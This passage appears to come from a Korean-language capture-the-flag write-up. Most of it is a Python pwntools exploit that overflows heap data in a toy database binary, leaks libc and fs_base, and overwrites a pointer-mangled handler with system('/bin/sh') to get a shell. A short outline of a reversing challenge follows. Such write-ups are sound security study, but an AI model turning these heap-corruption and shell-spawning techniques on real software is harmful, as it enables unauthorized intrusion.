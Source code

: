 ```py
    lego = heap + 0xb50
    binsh = libc + 0x1d8678
    log.info('[GLIBC] %#x'%libc)
    log.info('[FSBASE] %#x'%fsbase)

    sla(b'>', b'create table go3 (a int, b str)')

    pay = b'C'*0x8e1
    insert(b'go3', b'(a, b)', b"(%d, '%s')"%(0, pay))
    update(b'go1', b'b', b'%d'%target)
    # pause()

    pay = b''
    pay += p64(0x8f0) + p64(fsbase + 0x30)
    try:
        update(b'go1', b'b', b"'%s'"%pay)
        sla(b'> ', b'')
        sla(b'> ',b"update go3 set b = 'ABCD\"")
        update(b'go3', b'b', b"'%s'"%b'AAAABBBB')
        update(b'go3', b'b', b"'%s'"%p64(0))
    except:
        p.close()
        continue
    log.info("!?")
    break
pay = b''
pay += p64(0x8f0) + p64(lego)

over = BitArray(uint=system, length=64)
over.rol(0x11)
over = over.uint

update(b'go1', b'b', b"'%s'"%pay)
update(b'go3', b'b', b"'%s'"%(p64(over) + p64(binsh)))

update(b'go1', b'b', b'%d'%0)
update(b'go3', b'b', b'%d'%0)

sla(b'> ', b'exit')
p.interactive()
```

### Rev
#### Can't trust checker
C++ 형식의 바이너리이기에 분석에 유의하여야 하며, 분석해보면 아래와 같은 형식으로 이루어져있습니다.

```
1.특정한 형식의 입력받기
2.간단한 연산 진행
3.행렬곱 연산 
4.연산결과 2진수로 transform
5.nemo logic 검증
```
